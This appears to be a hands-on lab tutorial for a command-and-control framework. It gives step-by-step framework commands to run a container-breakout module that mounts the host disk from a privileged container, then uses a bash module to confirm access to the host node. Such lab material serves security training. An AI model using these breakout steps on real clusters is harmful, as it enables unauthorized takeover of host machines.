 

#### Load the mount container breakout module and run it

Load the module from terminal 1 by running `use module linux/go/mountContainerBreakout`{{execute T1}}.  
You can view all the information with `info`{{execute T1}} command.  
Set the module to run on all the agents with this command `set Agent all`{{execute T1}}.   

Execute it with `run`{{execute T1}} and wait for the output.  


#### Breakout  

This module will search for the host device and mount it.  
Notice that it will work only on privileged containers or containers that have the capability to mount devices.  
Once it succeeded, it will mount the host to the "/mnt0" (it can be also "mnt1", "mnt2" and so on untill it will find a folder that doesn't exist) folder.  

Make sure you are on the main menue by using `main`{{execute T1}}.  
Lod the bash module by using `use module linux/x64/bash/exec/bash`{{execute T1}}.  
Set the module to run on all the agents with this command `set Agent all`{{execute T1}}.   
Set the `Command` to list the files under `mnt0` by running `set Command "ls -ll /"`{{execute T1}} and `run`{{execute T1}}.  
You will see a file named "/this_is_node01_host" which means that you have access to the host.  
You can verify it by checking it also in `node01` by running `ls -ll /`{{execute HOST2}}.  
Feel free to create other files inside `node01`'s host and check that you can see them.  

